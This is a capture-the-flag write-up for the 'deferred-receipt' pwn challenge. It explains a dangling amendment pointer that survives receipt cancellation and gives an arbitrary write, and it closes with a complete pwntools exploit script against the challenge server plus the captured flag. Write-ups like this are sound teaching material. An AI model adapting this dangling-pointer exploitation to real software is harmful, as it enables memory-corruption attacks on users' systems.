




## Overview
```
Arch:       amd64
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
```
```
bird ➜ ~/.../WOLVCTF_2026/deferredreceipt $ ./deferred-receipt 

1. Create public receipt
2. Queue amendment
3. Cancel public receipt
4. Create sealed receipt
5. Process queue
6. Export sealed receipt
7. Exit
Choice: 
```

---
## Vulnerability
The vulnerability present in this challenge was a dangling pointer. It creates a pointer to a buffer, and leaves the pointer dangling later on in the code. This allows us to overwrite data at the location it still points to.

First, look at how the pointer gets its initialized value. When the user selects the second option, the `receipt_data` struct holds a pointer to that amendment.



Nothing vulnerable currently, but look at the third option. When it cancels the public receipt, it zeros out some of the `receipt_data` values but forgets the `amend_ptr`.



We couldn't do much with just a dangling pointer, in order to provide purpose for exploit development it should give us a write or read primitive, which is does below. Selecting the fifth option with a "cancelled public receipt" writes `amend_val` to `amend_ptr`.



---
## Exploit Development
In order to get the flag in this challenge, you have to select option six with the correct prerequisites. It checks if the `receipt_data` value is equal to `1279346003` or `0x4C414553` and the receipt has to be sealed, which would *normally* be impossible.




---
## Final Pwn

```python
from pwn import *

BINARY = "./deferred-receipt"
elf = context.binary = ELF(BINARY, checksec=False)

GDBSCRIPT="""
b *main
c
"""

def start():
    if args.GDB:
        return gdb.debug(BINARY, gdbscript=GDBSCRIPT)
    elif args.REMOTE:
        return remote("deferred-receipt.wolvctf-2026.kctf.cloud", 1337)
    return process([BINARY])

io = start()

def create_public_receipt():
    io.sendlineafter(b"Choice: ", b"1")
    io.recvuntil(b"Receipt ID: ")
    return int(io.recvline())

def create_sealed_receipt():
    io.sendlineafter(b"Choice: ", b"4")
    io.recvuntil(b"Receipt ID: ")
    return int(io.recvline())

def queue_amendment(receipt_id, value):
    io.sendlineafter(b"Choice: ", b"2")
    io.sendlineafter(b"Public receipt ID: ", str(receipt_id).encode())
    io.sendlineafter(b"Amendment (hex): ", hex(value).encode())

def cancel_receipt(receipt_id):
    io.sendlineafter(b"Choice: ", b"3")
    io.sendlineafter(b"Public receipt ID: ", str(receipt_id).encode())

def process_queue():
    io.sendlineafter(b"Choice: ", b"5")

def export_sealed(receipt_id):
    io.sendlineafter(b"Choice: ", b"6")
    io.sendlineafter(b"Sealed receipt ID: ", str(receipt_id).encode())
    return io.recvuntil(b"\n1. Create public receipt", drop=True)


receipt = create_public_receipt()
queue_amendment(receipt, 1279346003) # stage the write with the flag check value
cancel_receipt(receipt) # create the dangling pointer
create_sealed_receipt() # reuse slot 0 (creates ID 1002)
process_queue() # dereference and write to amend_ptr, triggering the write
flag = export_sealed(1002) # sees the value is equals flag check, read flag

print(flag)
io.interactive()
```
```
wctf{deferred_receipt_2b6f4058047e5aeb8e1a75aa}
```